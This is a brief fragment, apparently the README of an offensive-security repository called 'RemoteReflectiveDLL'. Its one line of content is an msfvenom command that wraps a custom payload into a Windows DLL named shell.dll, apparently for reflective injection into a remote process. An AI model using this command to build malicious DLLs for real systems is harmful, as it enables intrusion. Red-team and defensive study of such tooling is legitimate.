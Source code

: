 # RemoteReflectiveDLL




msfvenom -p generic/custom PAYLOADFILE=./payload.bin -a x86 --platform windows -f dll -o shell.dll
